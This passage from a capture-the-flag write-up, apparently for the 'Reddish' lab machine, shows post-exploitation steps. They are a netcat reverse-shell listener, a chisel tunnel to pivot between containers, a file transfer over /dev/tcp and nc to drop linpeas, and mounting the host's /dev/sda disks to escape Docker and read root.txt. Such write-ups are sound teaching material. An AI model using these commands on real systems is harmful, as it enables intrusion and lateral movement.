 Now start our listener:

```bash
nc -lnvp 9002
```

After a minute, we get our shell:

![image.png]({{ site.baseurl }}/assets/reddish/image%2024.png)

## backup host

It seems like we are still in a docker. Let’s upload linpeas and enumerate the host to find ways to break out. First, let’s set up a chisel tunnel to transfer files:

```bash
#on www
./chisel client 172.19.0.3:8005 8001:localhost:8001 &
```

Now on our attack host:

```bash
#on attack
nc -lnvp 8001 -q0 < linpeas.sh

#on backkup
cat < /dev/tcp/172.20.0.3/8001 > linpeas.sh
```

Now let’s execute it:

```bash
chmod +x linpeas.sh

./linpeas.sh
```

Interesting output:

![image.png]({{ site.baseurl }}/assets/reddish/image%2025.png)

Since /dev is mounted, let’s look for sda, which is usually the mounted SSD drives. 

```bash
ls -l /dev/sda*

brw-rw---- 1 root disk 8, 0 Oct 19 14:24 /dev/sda
brw-rw---- 1 root disk 8, 1 Oct 19 14:24 /dev/sda1
brw-rw---- 1 root disk 8, 2 Oct 19 14:24 /dev/sda2
brw-rw---- 1 root disk 8, 3 Oct 19 14:24 /dev/sda3
```

Let’s create directories to mount the drives

```bash
mkdir sda{1,2,3}
```

Now let’s mount all the drives:

```bash
mount /dev/sda1 sda1
mount /dev/sda2 sda2
mount /dev/sda3 sda3

```

Now looking through each drive, we find sda2 filesystem looks similar to a normal Linux filesystem structure. In /root dir, we find root.txt.